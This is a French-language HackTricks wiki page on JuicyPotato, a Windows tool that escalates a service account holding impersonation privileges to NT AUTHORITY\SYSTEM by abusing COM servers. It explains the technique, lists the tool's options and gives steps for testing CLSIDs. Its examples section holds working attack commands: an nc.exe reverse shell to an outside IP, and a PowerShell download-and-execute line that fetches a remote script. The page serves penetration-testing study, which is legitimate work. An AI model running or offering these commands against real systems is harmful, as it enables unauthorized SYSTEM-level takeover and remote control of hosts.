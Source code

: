 # JuicyPotato

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato ne fonctionne pas** sur Windows Server 2019 et Windows 10 build 1809 et ultérieurs. Cependant, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) peuvent être utilisés pour **exploiter les mêmes privilèges et obtenir un accès de niveau `NT AUTHORITY\SYSTEM`**. _**Vérifiez :**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (abus des privilèges dorés) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_Une version sucrée de_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, avec un peu de jus, c'est-à-dire **un autre outil d'escalade de privilèges locaux, d'un compte de service Windows à NT AUTHORITY\SYSTEM**_

#### Vous pouvez télécharger juicypotato depuis [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Résumé <a href="#summary" id="summary"></a>

[**Depuis le Readme de juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) et ses [variantes](https://github.com/decoder-it/lonelypotato) exploitent la chaîne d'escalade de privilèges basée sur le service [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [service](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) ayant l'écouteur MiTM sur `127.0.0.1:6666` et lorsque vous avez les privilèges `SeImpersonate` ou `SeAssignPrimaryToken`. Lors d'un examen de build Windows, nous avons trouvé une configuration où `BITS` était intentionnellement désactivé et le port `6666` était pris.

Nous avons décidé d'armement [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) : **Dites bonjour à Juicy Potato**.

> Pour la théorie, voir [Rotten Potato - Escalade de privilèges des comptes de service à SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) et suivez la chaîne de liens et de références.

Nous avons découvert que, en plus de `BITS`, il existe plusieurs serveurs COM que nous pouvons abuser. Ils doivent simplement :

1. être instanciables par l'utilisateur actuel, normalement un « utilisateur de service » qui a des privilèges d'imitation
2. implémenter l'interface `IMarshal`
3. s'exécuter en tant qu'utilisateur élevé (SYSTEM, Administrateur, …)

Après quelques tests, nous avons obtenu et testé une liste étendue de [CLSID intéressants](http://ohpe.it/juicy-potato/CLSID/) sur plusieurs versions de Windows.

### Détails juteux <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato vous permet de :

* **CLSID cible** _choisissez n'importe quel CLSID que vous voulez._ [_Ici_](http://ohpe.it/juicy-potato/CLSID/) _vous pouvez trouver la liste organisée par OS._
* **Port d'écoute COM** _définissez le port d'écoute COM que vous préférez (au lieu du 6666 codé en dur)_
* **Adresse IP d'écoute COM** _lier le serveur à n'importe quelle IP_
* **Mode de création de processus** _en fonction des privilèges de l'utilisateur imité, vous pouvez choisir parmi :_
* `CreateProcessWithToken` (nécessite `SeImpersonate`)
* `CreateProcessAsUser` (nécessite `SeAssignPrimaryToken`)
* `les deux`
* **Processus à lancer** _lancez un exécutable ou un script si l'exploitation réussit_
* **Argument de processus** _personnalisez les arguments du processus lancé_
* **Adresse du serveur RPC** _pour une approche furtive, vous pouvez vous authentifier auprès d'un serveur RPC externe_
* **Port du serveur RPC** _utile si vous souhaitez vous authentifier auprès d'un serveur externe et que le pare-feu bloque le port `135`…_
* **MODE TEST** _principalement à des fins de test, c'est-à-dire tester les CLSID. Il crée le DCOM et imprime l'utilisateur du jeton. Voir_ [_ici pour les tests_](http://ohpe.it/juicy-potato/Test/)

### Utilisation <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Final thoughts <a href="#final-thoughts" id="final-thoughts"></a>

[**Depuis le Readme de juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Si l'utilisateur a les privilèges `SeImpersonate` ou `SeAssignPrimaryToken`, alors vous êtes **SYSTEM**.

Il est presque impossible d'empêcher l'abus de tous ces serveurs COM. Vous pourriez penser à modifier les permissions de ces objets via `DCOMCNFG`, mais bonne chance, cela va être difficile.

La solution réelle est de protéger les comptes et applications sensibles qui s'exécutent sous les comptes `* SERVICE`. Arrêter `DCOM` inhiberait certainement cette exploitation, mais pourrait avoir un impact sérieux sur le système d'exploitation sous-jacent.

De : [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Examples

Note : Visitez [cette page](https://ohpe.it/juicy-potato/CLSID/) pour une liste de CLSIDs à essayer.

### Get a nc.exe reverse shell
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Lancer un nouveau CMD (si vous avez accès RDP)

![](<../../.gitbook/assets/image (300).png>)

## Problèmes de CLSID

Souvent, le CLSID par défaut que JuicyPotato utilise **ne fonctionne pas** et l'exploit échoue. En général, il faut plusieurs tentatives pour trouver un **CLSID fonctionnel**. Pour obtenir une liste de CLSIDs à essayer pour un système d'exploitation spécifique, vous devriez visiter cette page :

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Vérification des CLSIDs**

Tout d'abord, vous aurez besoin de quelques exécutables en plus de juicypotato.exe.

Téléchargez [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) et chargez-le dans votre session PS, puis téléchargez et exécutez [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). Ce script créera une liste de CLSIDs possibles à tester.

Ensuite, téléchargez [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(changez le chemin vers la liste des CLSID et vers l'exécutable juicypotato) et exécutez-le. Il commencera à essayer chaque CLSID, et **lorsque le numéro de port changera, cela signifiera que le CLSID a fonctionné**.

**Vérifiez** les CLSIDs fonctionnels **en utilisant le paramètre -c**

## Références

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
